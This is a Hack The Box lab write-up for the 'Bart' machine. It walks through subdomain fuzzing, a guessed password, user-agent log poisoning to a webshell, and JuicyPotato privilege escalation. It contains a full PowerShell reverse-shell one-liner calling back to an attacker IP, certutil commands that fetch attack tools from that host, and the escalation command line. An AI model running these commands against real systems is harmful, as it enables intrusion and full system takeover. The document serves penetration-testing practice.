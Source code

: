 # HTB - Bart

#### Ip: 10.10.10.81
#### Name: Bart
#### Difficulty: Medium

----------------------------------------------------------------------

![Bart.png](../assets/bart_assets/Bart.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.81 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-06 12:14 CDT
Nmap scan report for 10.10.10.81
Host is up (0.066s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.70 seconds
```

Ok looks like just port 80 is open here. Lets add forum.bart.htb to our `/etc/hosts` file.

Taking a look at the webpage we find a company page:

![site.png](../assets/bart_assets/site.png)

taking a look at the page source we also find a comment left behind that includes a name:

![name.png](../assets/bart_assets/name.png)

Because port 80 redirected to forum.bart.htb I wondered if there were more domains we could fuzz. Lets try using wfuzz:

![wfuzz.png](../assets/bart_assets/wfuzz.png)

Ok cool, looks like there is also a monitor.bart.htb- lets add that to `/etc/hosts` as well.

This leads us to a server monitor page. 

![monitor.png](../assets/bart_assets/monitor.png)

Because we've found the username harvey, I tried some random passwords and got lucky logging in with the credentials harvey:potter, which we found in the page source comment on forum.bart.htb. 

![login.png](../assets/bart_assets/login.png)

Looking in the Servers section of the page we find yet another domain to add to `/etc/hosts`

Navigating to the site we find another login page:

![dev.png](../assets/bart_assets/dev.png)

Trying the credentials harvey:potter again we get a verbose error message `The Password must be at least 8 characters`. But if we try a user we know won't exist like testing:testing123 we get the message `Invalid Username or Password`. This leads me to believe that the user harvey is a valid username here. 

Trying some more directory scanning we find the page http://internal-01.bart.htb/simple_chat/register_form.php. Navigating to the page we get the message `The page cannot be displayed because an internal server error has occurred.`

Searching Google for simple_chat/register_form.php I find this GitHub page which contains source code for the page. https://github.com/magkopian/php-ajax-simple-chat/blob/master/simple_chat/register.php

![gh.png](../assets/bart_assets/gh.png)

Cool, looks like the page wants two fields uname and passwd. Lets try creating a new user using curl and making a POST request to /register.php

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=testing&passwd=password123"
```

Nice, that seemed to work. Lets return to the login page and authenticate.

![in.png](../assets/bart_assets/in.png)

Awesome, that worked! 

Taking a look at the source code we find an interesting link and function:

![source.png](../assets/bart_assets/source.png)

Capturing this in Burp and playing around with it a bit, I find that the User Agent field is vulnerable. I can inject a webshell into the field and get execution on the box:

![php.png](../assets/bart_assets/php.png)

![whoami.png](../assets/bart_assets/whoami.png)

Heading over to https://www.revshells.com/ and grabbing a PowerShell reverse shell and URL encoding it, I can set up a NetCat listener and get a reverse shell back:

![burp.png](../assets/bart_assets/burp.png)

```text
┌──(ryan㉿kali)-[~/HTB/Bart]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.72] from (UNKNOWN) [10.10.10.81] 50147
whoami
nt authority\iusr
PS C:\inetpub\wwwroot\internal-01\log> hostname
BART
PS C:\inetpub\wwwroot\internal-01\log>
```

### Privilege Escalation

At this point, I still don't seem to have access to the user.txt flag, so let's try to escalate privileegs to administrator.

Running `whoami /all` I see that `SeImpersonatePrivilege` is enabled. This means we may be able to try something like juicy potato to escalate privileges. 

First we'll need to create a file called shell.bat:

```text
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.72',444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Then we'll need to transfer to the target the shell.bat file as well as juicy potato:

```text
certutil -urlcache -split -f "http://10.10.14.72/shell.bat"

certutil -urlcache -split -f "http://10.10.14.72/JuicyPotato.exe"
```

```text
PS C:\TEMP> dir


    Directory: C:\TEMP


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a----       06/09/2023     19:24         347648 JuicyPotato.exe               
-a----       06/09/2023     19:23            522 shell.bat 
```

Next we'll set up a NetCat listener and run:

```text
C:\TEMP\JuicyPotato.exe -l 444 -p C:\TEMP\shell.bat -t * -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
```

And we will catch a shell back as nt authority\ system!

![jp.png](../assets/bart_assets/jp.png)

All we have to do now is grab the user.txt and root.txt flags:

![flags.png](../assets/bart_assets/flags.png)

Thanks for following along!

-Ryan

----------------------------------------
